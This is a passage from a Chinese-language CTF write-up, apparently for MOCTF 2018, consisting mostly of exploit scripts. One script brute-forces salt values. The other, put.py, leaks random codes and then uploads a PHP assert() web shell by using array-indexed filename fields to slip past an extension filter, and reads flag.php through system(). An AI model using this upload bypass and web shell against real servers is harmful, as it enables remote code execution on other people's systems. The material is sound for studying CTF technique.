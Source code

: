 ```python
	for j in range(6):
	    salt2+=chr(ord(salt[j])-int(s[j]))
	get_flag(salt2)
words = "10"
o=its.product(words,repeat=6)
for i in o:
	s="".join(i)
	salt2=""
	for j in range(6):
	    salt2+=chr(ord(salt[j])+int(s[j]))
	get_flag(salt2)
```

put.py
```python
#通过`?action=test`调用`test_rand_code`函数发送6次`get_rand_code`结果，一共36个字符，
#然后提交一个构造好的`?action=test`，上传shell到服务器，在被删除之前就会被listen爆破得到，没爆破到就多爆破几次

#!/usr/bin/env python
#-*- coding:utf-8 -*-
#by xishir
import requests as req
import re

r=req.session()
url="http://120.78.57.208:6005/?action="


def get_test():
    url2=url+"test"
    r1=r.get(url2)
    print url2
    print r1.text
def upload():
    data={"filename[4]":"jpg",
          "filename[2]":"jpg",
          "filename[1]":"php",
          "content":"<script language='php'>assert($_POST[a]);</script>",
          "a":"system('cat ../../flag.php');"
          }
    url1=url+"upload"
    r2=r.post(url1,data=data)
    print r2.text

for i in range(6):
    get_test()
upload()
```
运行结果如下
![](/img/2018moctf2.png)
